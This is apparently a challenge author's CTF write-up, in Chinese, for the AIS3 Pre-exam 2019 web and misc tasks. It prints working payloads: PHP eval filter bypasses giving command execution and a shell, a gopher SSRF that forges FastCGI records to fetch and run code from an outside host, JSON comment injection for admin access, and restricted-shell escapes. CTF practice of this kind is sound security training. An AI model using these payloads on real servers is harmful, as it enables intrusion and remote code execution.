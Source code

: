 # AIS3 Pre-exam 2019

佛系出題，每題都不擋非預期，每題都有多種簡單解法 (´・ω・`)

| Name | Tags | Solves | Category |
|-------|-------|--------|----------|
| SimpleWindow  | ServiceWorker, warmup | 316 | Web  |
| 3v4l  | PHP, Bash, seadog | 28 | Web  |
| BabySSRF | SSRF, PHP, FastCGI | 3 |  Web  |
| Are you admin?  |	Ruby, JSON | 181 | Misc  |
| Pysh  | Python, Bash | 64 |  Misc


## Web

### Simple Window

- **Solved**: 316
- 預期難度: ☆ ~ ★

<br>

- 訪問`/`時會安裝 Service Worker
- 然後把`/flag` cache成別的頁面
- 把 Service Worker 取消或是關掉js就可
- 或是在第一次安裝時，它其實會去 fetch `/flag` 內容，你只要這時候抓這個 response 就行
    - 瀏覽器 / BurpSuite 是你的好朋友

### 3v4l

- **Solved**: 28
- 預期難度: ★★ ~ ★★★

<br>

- 這題會把`$_GET["#"]`丟進`eval`跑
    - 瀏覽器送記得 urlencode 一下
    - `#` => `%23`
- 限制長度不能超過 18

- 解法一 (預期解)
    - PHP的`NOT`運算
    - `~%8C%86%8C%8B%9A%92` = `system`
    - `~%93%8C%DF%D0` = `ls /`
    - 組合起來: `(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);`
        - 就等於`system("ls /");`
        - 這邊可以得到flag name: `here_is_your_flag`
    - 最後去讀 flag:
        - `(~%9A%87%9A%9C)(~%9C%9E%8B%DF%D0%97%D5);`
        - `exec("cat /h*");`

- 解法二
    - 忘記擋 ``` `` ``` 和 `?`
    - 直接``` `/???/??? /*`;  ```
    - 相當於``` `/bin/cat /*`; ```

- 解法三
    - ``` `\\143\\141\\164%20/*`; ```
    - 等同``` `cat /*`; ```

- 解法四
    - 來自 @cyku 大佬 
    - ``` `{${~%A0%B8%BA%AB}[0]}`; ```
    - `~%A0%B8%BA%AB` =  `_GET`
    - 把`$_GET[0]`拿去執行
    - 完整 getshell

### BabySSRF 

- **Solved**: 3
- 預期難度: ★★★ ~ ★★★★

<br>

- 這題很單純把輸入的URL拿去curl跑
- 然後擋掉`file:`, `ftp:`, `flag`, `index.php`, metadata 等關鍵字
    - `gopher://`沒擋
    - 可以任意 SSRF 構造 TCP packet
- 從`/robots.txt`可以找到`info.php`
    - 單純 `phpinfo`
    - 這邊就暗示後端是用 PHP-FPM 跑的

- 所以目標很明確，就是構造 FastCGI Protocol 去 RCE
    - 但限制長度只能 `236 Bytes`

- 構造 FastCGI Protocol 很容易，網路上隨便找都有 Payload generator
    - 但長度一般都很長，必須想辦法壓下來

- 壓 Payload 長度
    - `127.0.0.1` 可以換成 `0`
    - urlencode處理好 (只有 NULL Byte 和換行需要 Double encode)
    - 大部分 Params 都能拔掉
        - 重要的只有`REQUEST_METHOD`和`PHP_VALUE`
        - 如果要在單個 Request 內就執行`prepend_file`的話，要加`SCRIPT_FILENAME`
        - 多個 Request 的話，可以拔掉`SCRIPT_FILENAME`，先把設定寫進去
            - 譴責這種解法
            - 需要一直狂送 Payload
            - 會把全部 fpm process 設定寫掉，影響別人解題
    - 買個短一點的 domain (X
        - 看看某海狗長度5的 domain (貧窮限制了我的想像力)
    - 剩下就慢慢看 FastCGI 結構去優化

- 範例 Payload:
    - `gopher://0:9000/_%01%01%2500%01%2500%08%2500%2500%2500%01%2500%2500%2500%2500%2500%2500%01%04%2500%01%2500%7F%2500%2500%0E%03REQUEST_METHODGET%0F%16SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Finfo.php%09%3APHP_VALUEallow_url_include%3DOn%250Aauto_prepend_file%3Dhttp%3A%2F%2Fkaibro.tw%01%04%2500%01%2500%2500%2500%2500%01%05%2500%01%2500%2500%2500%2500`
    - 打開`allow_url_include`
    - 設定`auto_prepend_file=http://kaibro.tw`
    - Payload generator 請參考 [gen_payload.php](https://github.com/w181496/AIS3-PreExam-2019/blob/master/BabySSRF/gen_payload.php)

- RCE 之後，`/readflag`會生兩個 random integer 要你相加，答案正確才噴 flag
    - 但 timeout 只有 1 秒
    - 除非你心算和手速異於常人，不然應該沒辦法手算
    - 這邊我的解法: `mkfifo pipe; cat pipe | /readflag |(read l;echo "$((${l::11}))\n" > pipe;cat)`

## Misc

### Are you admin ?

- **Solved**: 181
- 預期難度: ★★ ~ ★★☆ 

<br>

- 這題會去用 JSON parse 一個字串
    - `"{\"name\":\"#{name}\",\"is_admin\":\"no\", \"age\":\"#{age}\"}"`
- 字串前後的`name`和`age`都可控
    - age 不能用英文字
    - 但非英文都可 (包含特殊符號)
- 中間有一個`"is_admin":"no"`
- 目標是把 parse 完的`is_admin`蓋成`yes`

- 解法一 (預期解)
    - Ruby json 可以用註解
    - name: `","is_admin":"yes",/*`
    - age: `*/"@":"@`
    - 合起來: `{"name":"","is_admin":"yes",/*","is_admin":"no", "age":"*/"@":"@"}`
- 解法二
    - 用`{}`去包`is_admin`
    - name: `","is_admin":"yes","x":{"":"`
    - age: `"},"":"`
    - 合起來: `{"name":"","is_admin":"yes","x":{"":","is_admin":"no", "age":""},"":""}`

### Pysh

- **Solved**: 64
- 預期難度: ★★ ~ ★★★

<br>

- 這題限制你不能用大部分小寫英文和一堆特殊符號
- 目標是想辦法用剩下的字元去 RCE

- 解法一 (預期解)
    - `read`預設結果會存放到`$REPLY`
    - 所以`read;$REPLY`就能 RCE
    - 也能`read a;$a`
- 解法二
    - `$SHELL`
    - 最多人用
- 解法三
    - `$BASH`
- 解法四
    - ``` a=`pr -T`;$a ```


----

p.s. 如果有人有其他解法歡迎發PR給我 <3
